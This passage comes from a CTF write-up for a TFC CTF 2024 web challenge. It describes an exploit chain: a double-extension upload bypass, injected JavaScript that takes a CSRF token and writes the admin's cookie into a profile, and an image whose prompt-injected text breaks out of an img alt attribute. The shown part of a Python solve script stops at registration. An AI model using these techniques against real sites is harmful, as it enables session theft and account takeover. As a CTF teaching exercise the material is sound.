 ![](payload.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TFC-CTF-2024/images/Pasted%20image%2020240805205255.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TFC-CTF-2024/images/Pasted%20image%2020240805205359.png)

Yep! It worked!!

> Note: Sometimes the uploaded JavaScript will be deleted. Maybe the application automatically deletes all unused profile picture files?

## Exploitation

Putting everything back together, to get the flag, we can:

1. Upload a JavaScript file via the double extensions bypass. The JavaScript code gets the `/edit_profile` page's CSRF token and update the profile description with the cookie
2. Jot down the uploaded JavaScript filename
3. Upload an profile picture that exploits prompt injection, which escapes the profile picture's `<img>` element `alt` attribute and import our uploaded JavaScript file
4. Send a friend request to the admin user

Now, we can write a solve script to automatic the above exploit chains!

```python
#!/usr/bin/env python3
import requests
import random
import string
from bs4 import BeautifulSoup
from re import search, compile
from PIL import Image, ImageDraw, ImageFont
from io import BytesIO

class Solver:
    def __init__(self, targetBaseUrl):
        self.targetBaseUrl = targetBaseUrl
        self.session = requests.session()
        self.REGISTER_PATH = f'{self.targetBaseUrl}/register'
        self.LOGIN_PATH = f'{self.targetBaseUrl}/login'
        self.EDIT_PROFILE_PATH = f'{self.targetBaseUrl}/edit_profile'
        self.SEND_FRIEND_REQUEST_PATH = f'{self.targetBaseUrl}/send_request'
        self.ADMIN_PROFILE_PATH = f'{self.targetBaseUrl}/profile/admin'
        self.FLAG_REGEX_FORMAT = compile('(TFCCTF\{.*?\})')

    def getCsrfToken(self, url):
        csrfToken = BeautifulSoup(self.session.get(url).text, 'html.parser').find('input', attrs={ 'name':'csrf_token' }).attrs['value']
        if not csrfToken:
            print('[-] Unable to retrieve the CSRF token')
            exit(0)

        return csrfToken

    def register(self):
        print('[*] Registering a new account...')
        
        randomUsername = ''.join(random.choice(string.ascii_lowercase) for i in range(10))
        randomPassword = ''.join(random.choice(string.ascii_lowercase) for i in range(10))
        bodyData = {
            'csrf_token': self.getCsrfToken(self.REGISTER_PATH),
            'username': randomUsername,
            'password': randomPassword,
            'confirm_password': randomPassword
        }
```